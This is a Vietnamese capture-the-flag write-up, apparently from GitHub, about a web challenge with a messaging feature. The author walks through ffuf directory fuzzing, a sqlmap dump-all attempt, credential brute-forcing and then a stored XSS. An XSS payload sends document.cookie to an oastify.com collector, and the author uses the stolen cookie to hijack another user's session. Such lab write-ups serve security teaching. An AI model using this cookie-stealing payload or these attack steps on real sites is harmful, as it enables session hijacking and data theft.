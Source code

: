![image](https://github.com/user-attachments/assets/bb94c1a8-bb89-4d1d-8ffc-aa9b16bf37fd)

Đây là giao diện của website:

![image](https://github.com/user-attachments/assets/e67b7a54-c888-4891-b6c7-bb84c4f2390f)

![image](https://github.com/user-attachments/assets/406d6599-9146-4ce4-a111-9c08cc35791e)

Thông tin về cái này quá ít ỏi

![image](https://github.com/user-attachments/assets/5eb4ca54-e8c2-4906-8119-b879599b88da)

Sau khi test chức năng đăng kí, tôi nghĩ là cái này để trang trí vì tôi nhập cái gì nó cũng bảo đã tồn tại 

![image](https://github.com/user-attachments/assets/9fd56335-da3a-454a-955f-abe967f9fdc4)

![image](https://github.com/user-attachments/assets/7f169727-7769-4406-85aa-8a065b6cfe40)

Thôi thì tôi thử FUZZ xem có gì không `ffuf -u http://94.237.54.190:37363/FUZZ -w Filenames_or_Directories_All.txt`<br>

Tiếp tục khai thác cái login trong khi đợi FUZZ bằng `sqlmap -r req.txt --level=5 --risk=3 --batch --dump-all`, tôi treo cái sqlmap ở đấy xem sqli không

![image](https://github.com/user-attachments/assets/808a2d50-d503-4487-8dd1-95eb05f0fcd6)

Trong lúc đợi treo sqlpmap thì tôi brute username và password 

![image](https://github.com/user-attachments/assets/51c73af1-c0ca-46b7-9836-859914a9d414)

Kết quả FUZZ thì tệ, thêm mỗi cái dashboard, mà vào thì redirect về lại login 

![image](https://github.com/user-attachments/assets/8207589a-fb4a-43e5-a8a6-73435c4a93c4)

Brute rồi cũng không ra, hơi thất vọng:((

![image](https://github.com/user-attachments/assets/73189dd7-6ca4-478d-87d5-1d7928ce3e3f)

Sau 1 khoảng thời gian tôi quay lại phần sign up và tôi đã đăng kí được, mấy lần trước không đăng kí được chắc là tôi up file php:))

![image](https://github.com/user-attachments/assets/be3d5707-b53f-4c6c-b9e0-39b898c0d993)

Sau khi đăng kí thì vào được cái dashboard

![image](https://github.com/user-attachments/assets/ec1f5f13-ef71-4e46-903a-f2259fe304df)

Sau khi nghịch cái match của web thì có cái nhắn tin và tôi nhận ra là dính xss

![image](https://github.com/user-attachments/assets/fce15a1e-46da-424e-9604-195ced32da0f)

Quay đi quay lại nó lọc luôn rồi

![image](https://github.com/user-attachments/assets/c26fcb30-fa8e-495d-803a-880895309dfa)

Tôi thử cái payload `<script>new Image().src = "https://izlxvmm0fef0u27ok5s4148s7jda10pp.oastify.com/?cookie=" + document.cookie;</script>` xem nó như nào:

![image](https://github.com/user-attachments/assets/a780fb7f-8ef5-4af7-a4d6-de4d3e628850)

Tôi lấy được cái cookie của Renata 

![image](https://github.com/user-attachments/assets/2b0e98cc-9b4a-4ae3-af08-c3554c4b1bc4)

![image](https://github.com/user-attachments/assets/a4f1bc2b-9039-4b38-b3dd-a63484cb58c4)

Tôi liền đổi cookie và truy cập được vào tài khoản của Renata và hiện ra flag

![image](https://github.com/user-attachments/assets/aa011646-f857-473a-81d5-c27075cf35c2)








